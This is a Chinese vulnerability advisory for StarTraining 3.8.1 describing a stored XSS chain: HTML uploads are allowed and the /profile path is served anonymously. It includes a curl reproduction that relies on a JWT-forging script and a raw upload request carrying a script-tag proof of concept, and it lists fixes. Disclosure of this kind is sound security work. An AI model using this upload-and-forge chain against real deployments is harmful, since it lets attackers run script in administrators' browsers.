


# StarTraining — 允许上传 HTML 且 /profile/** 匿名访问（存储型 XSS 链） (ST-VULN-006)

| 项 | 内容 |
|----|------|
| Vendor | zhistaredu |
| Product | StarTraining（职星学院） |
| Version | 3.8.1 |
| Type | Cross-site Scripting |
| CWE | CWE-434 / CWE-79 |
| 认证 | Authenticated user with upload permission |
| 严重度 | High |

## 说明

上传白名单带 html/htm，文件落在 /profile/**，而这条路径匿名可读。上传完直接打开链接就能跑脚本。

## 根因

危险后缀放行 + 静态资源匿名映射。

## 利用链接 / 复现

上传 HTML 后，匿名访问返回的 `/profile/...` 即可触发脚本。

```bash
TOK=$(python3 startraining_jwt_forge.py)
curl -s -X POST 'http://127.0.0.1:8900/common/upload' -H "Authorization: $TOK" \
  -F 'file=@poc.html;type=text/html'
# 响应里的 url / fileName 就是下面这种直链
```

示例直链（每次上传 UUID 会变，以响应为准）：

- `http://127.0.0.1:8900/profile/upload/2026/08/03/d71ce54a-955f-4057-91dc-35050caed149.html`

静态资源前缀（匿名 GET）：`http://127.0.0.1:8900/profile/**`


## 请求包（Yakit）

```http
POST /common/upload HTTP/1.1
Host: 127.0.0.1:8900
Authorization: USER_TOKEN
Content-Type: multipart/form-data; boundary=----BOUNDARY
Connection: close

------BOUNDARY
Content-Disposition: form-data; name="file"; filename="poc.html"
Content-Type: text/html

<script>alert('ST-PoC')</script>
------BOUNDARY--

# Then open returned /profile/upload/.../poc.html without auth
```

期望：上传返回 profile URL；匿名打开后 document.title 变成 XSS_OK。

## 截图





<!-- 截图：浏览器打开上方链接，按 F1；或跑 python capture_startraining_evidence.py -->

## 影响

管理员点开上传资源就中存储 XSS。

## 修复

去掉 html；/profile 加鉴权；顺手打开 xss 过滤器。

## 关联

- 本地报告：`../POC_VERIFICATION_REPORT.md`
- 脚本：`poc_verify/startraining_poc_verify.py` / `startraining_jwt_forge.py`
